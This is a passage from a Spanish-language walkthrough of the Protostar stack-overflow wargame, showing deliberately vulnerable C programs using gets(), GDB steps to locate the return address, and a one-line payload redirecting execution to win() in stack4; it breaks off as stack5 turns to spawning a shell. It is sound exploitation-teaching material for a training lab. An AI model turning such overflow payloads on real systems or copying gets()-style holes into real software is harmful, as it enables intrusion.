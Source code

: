 Finalmente, ejecutamos nuestro exploit:

```
python exploit.py | /opt/protostar/bin/stack3`
```

## Stack 4
Código fuente:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

GDB:

```
disas main
b *0x0804841e    # Breakpoint en el ret

info registers   # Comprobamos que estamos en el ret
x/30wx $esp-0x20 # Vemos lo que hemos sobreescrito y cuánto nos queda
x/wx $esp        # Dirección a la que apunta el ret, la que hay que cambiar

disas win        # Vemos la dirección de win = 0x080483f4
```
Exploit:

```
python -c "print('A'*76 + '\xf4\x83\x04\x08')" | /opt/protostar/bin/stack4
```

## Stack 5
Código fuente:

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```
En este reto en lugar de hacer que se ejecute un método incluido en el propio programa, lo que tenemos que conseguir es ejecutar una shell.
